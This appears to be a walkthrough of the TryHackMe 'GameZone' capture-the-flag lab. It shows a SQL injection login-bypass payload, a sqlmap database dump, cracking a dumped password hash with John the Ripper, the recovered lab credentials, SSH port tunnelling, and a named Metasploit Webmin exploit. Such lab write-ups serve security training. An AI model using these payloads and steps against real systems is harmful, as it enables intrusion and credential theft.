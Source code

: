 # GameZone


Walkthrough, see full steps here: https://tryhackme.com/room/gamezone

### User Flag

Easy SQLi query works here to bypass login: `' or 1=1 -- -`

Portal.php also vulnerable to SQLi, easy query works again

By attempting `database()` it gives an error stating the database is MySQL

Lets run SQLmap against it!

Save the request in Burp to a file, then run this command:
```sqlmap -r request.txt --dbms=mysql --dump```

SQLmap found users table:
```
Database: db
Table: users
[1 entry]
+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+
```

Save the hash to a file, then run John the Ripper:
```john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256```

Found the password! `videogamer124`

Log into SSH: `ssh agent47@GameZone.ctf`

Cat the flag!


### Root Flag

Setting up an SSH Tunnel

Run ss on the target machine to find ports that we cannot find remotely
```
agent47@gamezone:~$ ss -tulpn
Netid State      Recv-Q Send-Q  Local Address:Port                 Peer Address:Port
tcp   LISTEN     0      128                 *:10000                           *:*
```

To tunnel port 10000 we can use SSH: `ssh -L 10000:localhost:10000 agent47@gamezone.ctf`

Then use a web browser to go to the webserver: `http://127.0.0.1:10000/`

It seems to be an admin portal, the same username/password works to log in

Service is webmin 1.580, searchsploit found an MSF exploit: `exploit(unix/webapp/webmin_show_cgi_exec)`

We have root!

